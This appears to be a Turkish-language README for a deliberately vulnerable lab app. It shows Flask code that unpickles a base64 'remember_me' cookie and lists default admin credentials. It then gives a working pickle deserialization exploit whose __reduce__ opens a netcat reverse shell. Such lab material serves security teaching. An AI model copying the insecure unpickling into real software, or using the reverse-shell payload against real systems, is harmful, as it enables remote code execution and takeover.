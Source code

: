 # Zafiyetli Kod

```py
    b64 = request.cookies.get("remember_me")
    dump = pickle.loads(base64.b64decode(b64))
    session['username'] = dump.username
    session['loggedIn'] = True
```




# Açıklama

- Kullanıcı uygulamaya giriş yaptığı zaman ve remember me checkbox'sını işaretlediği zaman kullanıcıya bir tane cookie generate ediliyor.

- Kullanıcı isteği burp suite'de incelediği zaman cookienin base64 encoding olduğunu görecek. Zafiyeti sömürecek kodu generate ettiği zaman cookieyi değiştirip sistemde kod çalıştırabilecek.






## Credentials
- username = admin
- password = admin

- username = default
- password = default





# Zafiyetin Sömürülmesi
```py
import pickle
import base64
import os


class RCE:
    def __reduce__(self):
        cmd = ('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | '
               '/bin/sh -i 2>&1 | nc 127.0.0.1 1234 > /tmp/f')
        return os.system, (cmd,)


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))
```
